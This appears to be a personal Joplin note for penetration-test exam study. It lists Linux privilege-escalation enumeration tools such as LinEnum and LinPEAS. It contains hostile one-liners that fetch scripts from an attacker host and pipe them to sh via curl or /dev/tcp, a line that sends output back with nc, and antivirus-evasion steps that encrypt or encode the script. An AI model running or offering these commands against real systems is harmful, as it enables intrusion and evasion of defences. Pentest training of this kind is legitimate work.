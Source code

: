 Linux

## unix\_privesc\_check

> unix\_privesc\_check standard > unix_privesc.txt
> 
> unix\_privesc\_check detailed> unix\_privesc\_d.txt

## LinEnum (Not so good)

> /LinEnum.sh -s -k keyword -r report -e /tmp/ -t

-s : use current user password for sudo permissions

-k : Keyword

-r Report name. Will be saved as 'report.txt'

-e : Export location

-t : include thorough tests

No options = limited scans/no output file

## LinPEAS

Download and run instantly

> curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

If use Webserver in /opt/privesc

> \# Local network
> 
> sudo python -m SimpleHTTPServer 80 #Host
> 
> curl 10.10.10.10/linpeas.sh | sh #Victim
> 
> \# Without curl
> 
> sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
> 
> cat < /dev/tcp/10.10.10.10/80 | sh #Victim
> 
> \# Execute from memory and send output back to the host
> 
> nc -lvnp 9002 | tee linpeas.out #Host
> 
> curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim

For AV Bypass

> #open-ssl encryption
> 
> openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
> 
> sudo python -m SimpleHTTPServer 80 #Start HTTP server
> 
> curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim
> 
> #Base64 encoded
> 
> base64 -w0 linpeas.sh > lp.enc
> 
> sudo python -m SimpleHTTPServer 80 #Start HTTP server
> 
> curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim

https://blog.adithyanak.com/oscp-preparation-guide/linux-privilege-escalation

## Extra

Linux Exploit Suggester (Suggestions based on kernel and user space

> ```
> `wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh`
> 
> ```

id: 84f533482e6d49c8a69376c38f28c27c
parent_id: 2422530598364bce836125f66d64e851
created_time: 2022-01-28T03:41:01.587Z
updated_time: 2022-01-28T08:16:02.329Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-28T03:41:01.587Z
user_updated_time: 2022-01-28T08:16:02.329Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1